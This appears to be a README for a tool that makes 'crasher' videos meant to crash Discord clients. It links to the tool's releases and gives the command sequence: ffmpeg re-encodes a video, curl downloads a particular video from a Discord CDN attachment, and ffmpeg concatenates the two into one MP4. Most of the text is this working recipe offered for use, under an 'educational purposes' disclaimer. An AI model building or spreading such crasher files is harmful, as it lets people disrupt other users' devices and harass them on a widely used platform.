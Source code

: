 ## Discord Video Crasher

You can download the discord video crasher [here.](https://github.com/VapeLiminator/VideoCrasher/releases)



### How does it work?

It really just works very simply:

//I'm going to ignore the specifying path's and othere stuff from here

# ffmpeg -i %videoname%.mp4 "01110101-01110101-01101000-01101000-01101000.mp4" 
# curl -ko "abc.mp4" "https://cdn.discordapp.com/attachments/965003761485492314/987416285216387142/FemaleAnimatedHyrax-mobile.mp4"
##(
##echo file 01110101-01110101-01101000-01101000-01101000.mp4
##echo file abc.mp4
##)>"uwu.txt"
##ffmpeg -f concat -i uwu.txt -codec copy %crashername%.mp4

//And that's the important part! the only thing left is removing the files we've created, and it's done.

**This has been made with educational purposes, I am not in charge for what you do with this program.**

### Need help?
NeumaticYT#6969 for error's found in the program, please do not spam, thanks.
